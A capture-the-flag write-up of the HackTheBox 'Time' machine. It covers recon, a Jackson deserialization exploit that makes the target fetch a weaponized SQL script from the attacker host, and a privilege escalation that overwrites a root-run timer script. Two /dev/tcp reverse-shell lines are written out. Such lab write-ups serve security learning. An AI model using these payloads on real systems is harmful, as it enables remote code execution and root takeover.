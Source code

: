 ```yaml
---
coverY: 0
---
```


# 📦 HTB: Time – Deserialization, Java Shenanigans & Root in Style

<figure><img src="../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
_This medium-difficulty HTB box was a great lesson in one thing:_\
**Read the damn error. Then research it like your shell depends on it.**
{% endhint %}

### 🧭 Enumeration

#### 🔍 Nmap Scan

As always, I began with a full enumeration sweep:

```
nmap -Pn -n -A --reason -vvv -oN nmap/00-basic.txt -iL target.txt
```

**Findings:**

* **Port 22**: OpenSSH 8.2p1 (Ubuntu)
* **Port 80**: Apache 2.4.41 hosting a web server titled _"Online JSON Parser"_

### 🕸 Recon

The website was a **JSON beautifier** — harmless-looking, but CTFs don’t give you port 80 unless they want you to do _evil developer things_.

I ran `hakrawler` to check for juicy endpoints:

```
cat url.txt | hakrawler -proxy http://localhost:8080 -subs -d 5 -insecure -s -json >hakrawler.json
```

No admin panel. No hidden paths. But what caught my eye was how it **handled malformed JSON**...

### 💥 Exploitation – Jackson Deserialization RCE

Normal JSON works:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

```
{"test":"hello"}
```

But malformed input returned this beauty:![](<../.gitbook/assets/ChatGPT Image Jun 2, 2025, 09_27_03 AM.png>)

> `Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException`

> _Expected START\_ARRAY, got START\_OBJECT…_\
> &#xNAN;_"need JSON Array to contain As.WRAPPER\_ARRAY type information..."_

**Boom. Jackpot.**\
That’s **Jackson Deserialization**.



<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I dug into this article that became my savior:\
🔗 [https://blog.doyensec.com/2019/07/22/jackson-gadgets.html](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html)

#### 🧪 Payload Time

```
["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.8:8000/inject.sql'"}]
```

* 📄 `inject.sql` – Weaponized

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
	String[] command = {"bash", "-c", cmd};
	java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.8/4444 0>&1')
```

```
nc -lvnp 4444
```

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

💥 **Reverse shell obtained!**

### 🧍 Local Privilege Escalation – Timer Shenanigans

After running `linpeas`, I found something gold:

* /usr/bin/timer\_backup.sh run as root every 10 seconds

```
echo "bash -i >& /dev/tcp/10.10.14.8/9000 0>&1" > /usr/bin/timer_backup.sh
```

```
nc -lvnp 9000
```

📈 Got root. Simple, clean, and elegant.

{% embed url="https://www.hackthebox.com/achievement/machine/409699/286" %}

## References

* https://github.com/lorenzodegiorgi/jackson-vulnerability
* https://github.com/FasterXML/jackson/wiki/Jackson-Polymorphic-Deserialization-CVE-Criteria
* https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
* https://www.youtube.com/watch?v=uS37TujnLRw
* https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

## 🧠 Final Thoughts

What made **HTB: Time** stand out wasn’t the difficulty of the exploit. It was the **importance of interpreting Java errors and knowing what to Google.**

➡️ _Lesson:_ Sometimes the error **is** the clue.

This box was a smooth ride with:

* 🔍 Deep Java debugging
* 🧬 Deserialization abuse
* 📅 Scheduled script escalation

And that's a wrap! Time box — rooted. ✅
